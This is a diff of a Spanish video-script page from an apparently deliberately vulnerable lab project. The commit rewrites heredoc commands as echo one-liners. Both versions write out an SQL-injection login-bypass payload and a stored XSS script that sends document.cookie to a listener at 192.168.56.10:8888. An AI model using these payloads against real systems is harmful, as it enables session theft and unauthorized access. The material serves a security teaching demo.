

Before and after one commit to MDiSc/vulnapxd, a Markdown page: docs/GUION_DEFENSA_VIDEO.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(video): eliminar heredoc para evitar bloqueos en terminal

````diff
--- a/docs/GUION_DEFENSA_VIDEO.md
+++ b/docs/GUION_DEFENSA_VIDEO.md
@@ -68,12 +68,10 @@
 
 ### PASO 2.1: Creación del payload de Inyección SQL (`payload_sqli.json`)
 
-* 🖥️ **Acción Visual:** En la terminal de Kali, creas directamente el archivo JSON que contendrá el payload de SQLi.
+* 🖥️ **Acción Visual:** En la terminal de Kali, creas directamente el archivo JSON con el payload de SQLi y lo verificas.
 * ⌨️ **Comando a escribir:**
   ```bash
-  cat << 'EOF' > payload_sqli.json
-  {"username": "' OR 1=1 OR '1'='1", "password": "x"}
-  EOF
+  echo '{"username": "'\'' OR 1=1 OR '\''1'\''='\''1", "password": "x"}' > payload_sqli.json
   cat payload_sqli.json
   ```
 * 🗣️ **Lo que dices mientras tipeas el comando y muestras el archivo `payload_sqli.json`:**
@@ -109,12 +107,10 @@
 
 ### PASO 2.4: Creación del payload de Stored XSS (`payload_xss.json`)
 
-* 🖥️ **Acción Visual:** Creas el archivo con el script XSS autorreplicante y exfiltrador.
+* 🖥️ **Acción Visual:** Creas el archivo JSON con el script XSS usando un comando de una sola línea.
 * ⌨️ **Comando a escribir:**
   ```bash
-  cat << 'EOF' > payload_xss.json
-  {"receiverId": 1, "content": "<script>fetch('http://192.168.56.10:8888/?c='+encodeURIComponent(document.cookie),{mode:'no-cors'});</script>"}
-  EOF
+  echo '{"receiverId": 1, "content": "<script>fetch(\"http://192.168.56.10:8888/?c=\"+encodeURIComponent(document.cookie),{mode:\"no-cors\"});</script>"}' > payload_xss.json
   cat payload_xss.json
   ```
 * 🗣️ **Lo que dices mientras tipeas y muestras `payload_xss.json`:**
````
